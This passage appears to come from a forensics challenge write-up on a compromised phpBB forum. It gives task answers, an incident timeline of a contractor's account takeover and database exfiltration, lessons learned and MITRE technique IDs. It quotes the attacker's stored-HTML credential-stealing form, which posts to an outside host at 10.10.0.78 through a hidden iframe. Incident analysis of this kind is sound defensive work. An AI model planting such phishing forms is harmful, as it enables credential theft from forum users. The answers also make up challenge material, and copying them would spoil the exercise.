

The date and time (UTC) is: **26/04/2023 11:01:38**.

#### Task 10

***What was the size in bytes of the database backup as stated by access.log?***

At the end of the log entry found above, the size of the database can be found.



The size is: **34707** bytes


## Incident Timeline

| Timestamp (UTC)         | Event                            | Source                     | Notes                                                                                                 |
| :---------------------- | :------------------------------- | :------------------------- | :---------------------------------------------------------------------------------------------------- |
| **2023-04-25 11:09:07** | Administrator Login              | `phpbb_log`                | Legitimate administrator logs into the forum.                                                         |
| **2023-04-25 12:15:41** | Contractor Account Creation      | `phpbb_users`              | External contractor `apoole1` registers an account.                                                   |
| **2023-04-25 12:17:22** | Malicious Post Creation          | `phpbb_posts`              | Contractor `apoole1` publishes a malicious post containing a credential-stealing HTML form.           |
| **2023-04-26 10:53:12** | Administrator Account Compromise | `phpbb_log` / `access.log` | Contractor `apoole1` logs into the forum using the administrator account.                             |
| **2023-04-26 10:53:51** | Privilege Escalation             | `phpbb_log`                | Contractor adds their account to the Administrators group.                                            |
| **2023-04-26 10:54:31** | Database Backup Initiated        | `phpbb_log`                | Request to initiate a database backup is recorded.                                                    |
| **2023-04-26 11:01:38** | Database Exfiltration            | `access.log`               | Contractor downloads the database backup, sized **34,707 bytes**, completing the observed data theft. |


## Lessons Learned / Key Findings / Important to remember

- **Stored HTML Is a Phishing Delivery Mechanism:**  
  The contractor did not host anything: he registered on the forum (`apoole`, then `apoole1`) and published a post (`post_id 9`) whose HTML rendered a fake *Session Timeout* panel inside the legitimate site. The form sends the credentials straight to his host (`<form action="http://10.10.0.78/update.php" target="hiddenframe">`), so the victim is phished from a page he already trusts, through a hidden iframe. Any platform that accepts user-supplied HTML must escape or strip `form`/`action`/`script` tags, and detections should cover privileged logins from unexpected networks (here the Guest Wi-Fi range) rather than only failed logins.

- **Cross-Source Timelines Require UTC Discipline:**  
  `phpbb_log` stores Unix epoch values, and `datetime(time, 'unixepoch')` renders them as UTC, while Apache's `access.log` prints local time with its offset (`+0100`). The contractor's admin login is `10:53:12` UTC in `phpbb_log` and `11:53:12 +0100` in `access.log`: the same second, one hour apart on paper. Copying an access-log line into a UTC timeline without converting it is wrong by exactly one hour, and that error can silently invert the order of two events. The backup file name (`backup_1682506471_dcsr1p7tfyijoyq8.sql.gz`) decodes to `2023-04-26 10:54:31` UTC, matching the `LOG_DB_BACKUP` entry to the second — always look for this kind of independent anchor before trusting a single log's notion of time.

- **Analyse Hostile Artifacts With Static Tools, Not a Browser:**  
  The post body was ~11.8 KB of HTML. I exported it with `sqlite3 -noheader` into `post.txt` and viewed it through `tidy -quiet -indent | batcat` instead of opening it. The payload is built to run in a browser and to POST data back to the attacker, so rendering it live would have added risk while revealing nothing extra. 


## Related Techniques

| Technique                      | ID            |
| :----------------------------- | :------------ |
| Phishing: Spearphishing Link   | **T1566.002** |
| Input Capture: Web Portal Capture | **T1056.003** |
| Valid Accounts                 | **T1078**     |
| Account Manipulation           | **T1098**     |
| Unsecured Credentials: Credentials In Files | **T1552.001** |
| Archive Collected Data: Archive via Utility | **T1560.001** |
| Exfiltration Over C2 Channel   | **T1041**     |


